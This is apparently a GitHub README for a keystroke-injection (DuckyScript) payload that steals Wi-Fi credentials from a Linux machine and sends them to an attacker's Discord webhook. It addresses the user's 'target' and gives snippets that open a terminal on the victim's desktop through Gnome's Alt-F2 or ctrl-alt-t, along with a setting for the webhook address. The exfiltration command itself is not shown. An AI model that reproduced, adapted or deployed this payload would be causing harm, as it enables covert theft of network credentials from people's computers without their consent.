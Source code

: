 # Exfiltrate wifi creds of a linux system to a discord webhook

This payload grabs the wifi credentials on a linux system and sens it to you with a discord webhook.

## Getting started

### Dependencies
- Linux
- Bash
- Network Manager

### Prerequisites

If your target uses Gnome, uncomment this line in the payload (uncomment by removing `REM_BLOCK` and `END_REM`:
```
REM_BLOCK
Use this if your target is using Gnome (remove REM_BLOCK and END_REM + this line)
ALT F2
DELAY 200
STRINGLN xterm
DELAY 500
END_REM
```

If your target uses a DE or WM that lets you open a terminal with ctrl-alt-t uncomment this line:
```
REM_BLOCK
Use this if your targets DE or WM has the ctrl-alt-t shortcut (remove REM_BLOCK and END_REM + this line)
CTRL-ALT t
DELAY 500
END_REM
```

## Settings
- #dc your discord webhook
